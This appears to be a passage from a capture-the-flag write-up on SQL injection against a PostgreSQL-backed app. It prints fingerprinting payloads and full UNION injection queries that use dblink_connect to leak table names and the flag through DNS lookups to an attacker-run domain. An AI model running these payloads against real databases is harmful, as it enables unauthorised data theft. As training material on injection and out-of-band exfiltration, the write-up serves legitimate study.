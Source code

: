 In these cases the query ran successfully and we can use these error messages to make sure our query is being executed.

### Exploitation
We start by fingerprinting the domain.

`' or surname = CONCAT('a','b') -- ` is a valid query therefore it must be either mysql or Oracle or Postgresql.

`' or surname =  'a' || 'b' -- ` is a valid query therefore it must be Oracle or Postgresql.

`1' AND 1=1::int -- ` is a valid query therefore it must be Postgresql.

Now that we know what dbms is being used, we need to find an alternative way to extract information from it.

In this case, we can use out of band sql injection through dns requests.

In PostgreSQL, this equates to using a query that tries to connect to another PostgreSQL database as such:
```
SELECT dblink_connect('my_conn', 'host=my-awesome-domain.com user=someuser
dbname=somedb password=postgres')
```
where `my-awesome-domain.com` is the domain we're listening for DNS requests on.

To extract information, we will query our domain with a subdomain set to the information we want to extract as such:
    - `my-information-to-extract.my-awesome-domain.com`
    and our listening server will see something along the lines of:
```
04:07:01.735406 IP 172.172.172.172.21738 > 172.172.172.172.domain: 2711 [1au]
A? my-information-to-extract.my-awesome-domain.com. (65)
```

Therefore, we can extract all the tables from information_schema with a query like this:
```
' and 1=0 UNION (SELECT id, (SELECT dblink_connect('my_conn', 'host=' ||
(select table_name from information_schema.tables as p
where p.table_schema != 'information_schema'
and p.table_schema != 'pg_catalog' limit 1 offset 0)
|| '.oob.domain.com user=someuser  dbname=somedb password=postgres')), surname,
address, postcode, cats_name, mothers_maiden_name, gender, time_created
FROM person WHERE 1=1) --
```
We then simply increment the offset to get all the tables. These include:
    - `person`
    - `flag`

Similarly for the columns in the flag table:
```
' and 1=0 UNION (SELECT id, (SELECT dblink_connect('my_conn', 'host=' ||
(select flag from flag limit 1) || '.oob.domain.com user=someuser  
dbname=somedb password=postgres')), surname, address, postcode, cats_name,
mothers_maiden_name, gender, time_created FROM person WHERE 1=1) --
```
The columns include:
    - `id`
    - `flag`
